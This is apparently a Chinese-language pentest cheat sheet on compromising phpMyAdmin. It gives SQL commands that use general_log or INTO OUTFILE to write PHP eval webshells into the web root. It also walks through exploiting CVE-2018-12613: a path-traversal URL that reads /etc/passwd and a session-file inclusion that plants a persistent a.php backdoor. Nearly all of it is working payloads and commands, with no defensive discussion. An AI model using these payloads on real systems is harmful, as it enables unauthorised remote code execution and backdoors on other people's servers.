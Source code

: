 [phpmyadmin写shell](https://mp.weixin.qq.com/s?__biz=MzIwMDcyNzM0Mw==&mid=2247484470&idx=1&sn=b2f7b56028ddf701a903d981e58e324e) [2](https://blog.csdn.net/qq_40638006/article/details/122033546)


### phpMyadmin 后台日志写shell
方式1.登录到后台日志写shell
```shell
show global variables like "%genera%";    #查询general_log全局变量配置
set global general_log='on';             #开启生成日志
SET global general_log_file='C:/phpStudy/www/shell.php'; #设置日志存储路径
select "<?php eval($_POST['cmd']);?>";   #写入一句话
set global general_log='off';             #关闭general_log模式
```

方式2.

```shell
select "<?php @eval($_POST[yxcms]);?>" into outfile " C://phpstudy/www/info.php"
```
需要配置文件中 secure_file_priv 值为NULL, 且更改后需重启服务才生效且更改后需重启服务才生效


### CVE-2018-12613 文件包含
[phpMyAdmin 4.8.0和4.8.1](https://blog.csdn.net/qq_38626043/article/details/119620612)

http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
可见/etc/passwd被读取, 后面进行 session 包含读马

在同一窗口执行，防止 session改变
test库执行sql `select '<?php phpinfo(); ?>'`

F12 - Application - Cookies 看到 session: `b38ba3b7116d19bb294a73c12229db12` 访问成功显示 phpinfo();

http://192.168.50.8:2003/index.php?target=db_datadict.php%253f../../../../../../../../../tmp/sess_0b71943960b781880a45a642c4179c4d

再执行sql。不要管错误
```sql
select `<?php fputs(fopen("a.php","w"),'<?php eval($_POST[a]);?>');?>`
```

访问 http://192.168.50.8:2003/index.php?target=db_datadict.php%253f../../../../../../../../../tmp/sess_0b71943960b781880a45a642c4179c4d

完成a.php的添加:   http://192.168.50.8:2003/a.php